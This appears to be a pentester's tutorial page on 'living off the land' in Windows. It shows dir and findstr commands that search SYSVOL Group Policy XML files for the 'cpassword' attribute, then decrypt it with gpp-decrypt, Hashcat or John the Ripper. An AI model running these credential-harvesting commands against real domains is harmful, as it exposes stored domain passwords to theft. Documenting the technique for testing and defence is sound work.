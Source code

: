 # Living off the Land

## 01 - Command Prompt

Use the `dir` command to find the XML file.

```
C:\> dir /s Groups.xml

C:\> dir /s %LOGONSERVER%\SYSVOL\*\Groups.xml
```

Use `findstr` to search for `cpassword` keyword to every `.xml` files.

```
C:\> findstr /s cpassword C:\Windows\SYSVOL\<domain_name>\Policies\*.xml

C:\> findstr /s cpassword \\%LOGONSERVER%\SYSVOL\*.xml
```

Copy the **cpassword** attribute after you've opened the XML file. Then decrypt it using `gpp-decrypt` utility or any other password cracking programs that is highly recommended like **Hashcat** or **John The Ripper**.

```
C:\> type C:\path\to\GPP_file.xml
```

---
## References

### LOLBAS

- [LOLBAS: findstr](https://lolbas-project.github.io/lolbas/Binaries/Findstr/)

### ADSecurity

- [Active Directory Security: Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)

### InfoSec Matter

- [InfoSec Matter: Powershell Commands for Pentesters](https://www.infosecmatter.com/powershell-commands-for-pentesters/)